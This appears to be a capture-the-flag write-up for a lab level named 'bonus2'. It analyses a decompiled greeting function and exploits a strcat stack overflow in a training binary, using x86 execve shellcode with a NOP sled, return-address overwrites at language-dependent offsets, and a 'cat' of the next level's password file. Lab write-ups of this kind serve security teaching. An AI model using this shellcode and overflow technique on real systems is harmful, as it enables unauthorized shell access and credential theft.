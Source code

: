 # Bonus 2
*password : 579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245*

```
$ scp -P 4242 bonus2@192.168.56.108:bonus2 binary/
```

## Analyze

in greetuser() :
```
  if (language == 1) {
    local_4c = 0xc3767948;
    ...
  }
  else {
    if (language == 2) {
      local_4c = 0x64656f47;
      ...
    }
    else {
      if (language == 0) {
        local_4c = 0x6c6c6548;
        ...
      }
    }
  }
strcat(&local_4c,&stack0x00000004);
puts(&local_4c);
...
```

```
$ ./bonus2 test ok
Hello test
```

conclusion :
- language = 0
- local_4c = "Hello "
- &stack0x00000004 = av[1]

## Buffer overflow : strcat exploit
objective : execute `/bin/sh`

- find the correct length of the first parameter to overwrite all '/0' until the second parameter => `40`
- use the correct language : environment LANG (en, fi or nl)
- use the second parameter to launch the shellcode
```
$ export SHELLCODE=$(python -c 'print "\x90" * 200 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')
```

## Test language = 0
- find the offset => `26`
```
$ /tmp/a.out
0xbffff83f
$ ./bonus2 $(python -c 'print "\x42" * 40') $(python -c 'print "\x42" * 26 + "\x3f\xf8\xff\xbf"')
Hello BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB?���
Segmentation fault (core dumped)
```
failed !

## Test language = 1
- find the offset => `14`

```
$ export LANG=fi
$ /tmp/a.out
0xbffff848
$ ./bonus2 $(python -c 'print "\x42" * 40') $(python -c 'print "\x42" * 14 + "\x48\xf8\xff\xbf"')
Hyvää päivää BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBH���
Segmentation fault (core dumped)
```
failed !

## Test language = 2
- find the offset => `23`
```
$ export LANG=nl
$ /tmp/a.out
0xbffff848
$ ./bonus2 $(python -c 'print "\x42" * 40') $(python -c 'print "\x42" * 23 + "\x48\xf8\xff\xbf"')
Goedemiddag! BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBH���
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
success !
